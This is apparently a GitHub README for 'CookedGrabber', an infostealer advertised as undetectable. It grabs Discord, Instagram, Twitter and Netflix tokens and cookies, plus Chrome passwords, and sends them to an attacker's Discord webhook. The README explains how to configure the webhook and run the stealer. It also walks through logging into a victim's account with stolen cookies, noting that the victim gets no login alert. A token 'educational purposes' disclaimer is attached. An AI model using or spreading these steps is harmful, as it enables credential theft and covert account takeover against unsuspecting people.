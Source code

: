 # TOKENGRABBERDISCORD
A NEW FUD TOKEN GRABBER


 

Discord, Twitter, Instagram, netflix cookies, token grabber and also password grabber. Grabbing from all web browsers !
GitHub contributors GitHub issues  GitHub pull requests GitHub commit activity Maintenance

Usage • Cookies • Compatibility • Disclaimer • Contributing • License • Other projects

Loved the tool? Please consider donating 💸 to help it improve!

Buy Coffee for mouadessalim Buy Me A Coffee

📈Usage
Requirements ⚡
Windows 10 OS only (win32, for x86, x86_64, and arm64 architectures)
Python 3.x (python 3.9 used for the project.)
Modules: $ pip install -r requirements.txt
How to use ? ❄
There is 2 ways to run the script.

1. First way
You need to add your webhook(s) link(s) to the script from this line:

CookedGrabber/CookedGrabber.py

Line 290 in f753c4b

 send_webhook(['YOUR DISCORD WEBHOOK URL']) 
You can run the script normaly.
2. Second way
You can also run the program by giving several arguments (the webhook(s) link(s)):

py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
Screenshots 📷
 

🍪Cookies
What are cookies ?
Cookies are text files with small pieces of data like a username and password that are used to identify your computer as you use a computer network. Specific cookies known as HTTP cookies are used to identify specific users and improve your web browsing experience.

Data stored in a cookie is created by the server upon your connection. This data is labeled with an ID unique to you and your computer.

When the cookie is exchanged between your computer and the network server, the server reads the ID and knows what information to specifically serve to you.

What are cookies used for ?
Websites use HTTP cookies to streamline your web experiences. Without cookies, you’d have to login again after you leave a site or rebuild your shopping cart if you accidentally close the page. Making cookies an important a part of the internet experience.

Security breach with cookies
Since the data in cookies doesn't change, cookies themselves aren't harmful. They can't infect computers with viruses or other malware. However, some cyberattacks can hijack cookies and enable access to your browsing sessions.

The server only sends the cookie when it wants the web browser to save it. If you’re wondering “where are cookies stored,” it’s simple: your web browser will store it locally to remember the “name-value pair” that identifies you.

⚠ When you try to connect to an account using cookies it does not even generate a new login request to the server, that mean that the victim does not even receive the email with a new connexion detected. The target don't know that you are connected to the account because the server think it's him !

☢ This reveals major security breaches in general websites and social networks ! ☢

How to bypass websites with cookies ?
So to use cookies to log into the victim account, you must have a cookies extension. I recommand Cookie-Editor. To bypass website security you must be already connected to your personnal account to generate all cookies needed for the website. After being sure that all default cookies have been generated use your cookies extension to replace your personnal id account cookies with the grabbed victim account cookies.

Example: Instagram
image

You need to put each value in it's place with the cookies extension:

image

Once the cookies replaced and saved, refresh the page and you are logged in the victim account !

🌐Compatibility
Browsers	Cookies and token grabber 🔍	Password stealer 💥
Chrome	✅	✅
Edge	✅	❌
Brave	✅	❌
Firefox	✅	❌
Opera (GX)	✅	❌
Vivaldi	✅	❌
Chromium navigator	✅	❌
❗Disclaimer
Only for educationnal puposes.
We decline any responsability in case of misuse of this code.
✨Contributing
Your contributions are always welcome! if you contribute we will show your account in the README file ! Please have a look at the contribution guidelines first. 🎉

Authors ❤


Working on your first Pull Request? You can learn how from this free series How to Contribute to an Open Source Project on GitHub

📝License
The actual repository is unlicensed, it mean all rights are reserved. You cannot modify or redistribute this code without explicit permission from the copyright holders.

Violating this rule may lead our intervention according to the Github Terms of Service — User-Generated Content — Section D.3 using the Content Removal Policies — DMCA Takedown Policy.

